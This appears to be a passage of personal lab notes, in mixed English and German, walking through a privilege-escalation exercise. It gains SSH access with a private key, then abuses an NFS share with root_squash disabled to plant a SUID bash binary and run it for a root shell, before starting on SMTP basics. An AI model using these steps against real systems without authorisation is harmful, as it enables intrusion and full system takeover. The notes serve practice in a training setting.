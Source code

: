     cp id_rsa.pub /home/kali
    
    chmod 600 id_rsa
    
    ssh -i id_rsa cappucino@<IP>

####Exploiting

Mapped Out Pathway:

If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:


    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS

Download bash shell:

https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

cp to home of ssh User ind mount

bash in die Gruppe root setzen:

    sudo chown root bash

rechte setzen:

    sudo chmod +s bash

    sudo chmod +x bash

auf Zeilrechner bash ausführen:

    ./bash -p

Shell sollte als root gestarted sein

###SMTP

####Understanding

The SMTP server performs three basic functions:

- It verifies who is sending emails through the SMTP server.
- It sends the outgoing mail
- If the outgoing mail can't be delivered it sends the message back to the sender
